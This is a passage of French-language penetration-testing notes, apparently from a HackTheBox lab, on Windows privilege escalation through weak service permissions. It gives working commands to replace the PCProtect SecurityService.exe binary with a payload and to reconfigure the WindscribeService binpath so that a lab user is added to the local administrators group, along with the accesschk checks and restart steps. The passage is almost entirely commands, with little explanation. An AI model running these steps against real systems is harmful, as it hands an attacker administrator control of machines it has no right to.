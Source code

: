 ### 3. Transférer la charge et remplacer le binaire

```cmd-session
cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```

### 4. Lancer le service (cmd)

```cmd
sc start SecurityService
```



## Services modifiable


> [!Important]
> Bien noter le path avant afin de le remettre après exploitation

### AccessChk (SysinternalsSuite)

### 1. Vérifier les permissions sur le service avec AccessChk

```cmd-session
.\accesschk.exe /accepteula -quvcw WindscribeService
```

ou avec sc directement

```
cmd /c sc qc <service name>
```

### 2. Changer le path du service

Pointer vers commande cmd pour ajouter user au groupe administrators

```cmd-session
sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"
```

### 3. Arrêter et relancer le service

```cmd-session
sc stop WindscribeService
```

erreur normale puisqu'il ne trouve pas le path

```cmd-session
sc start WindscribeService
```

### 4. Confirmer l'ajout au groupe administrators

```cmd-session
net localgroup administrators
```
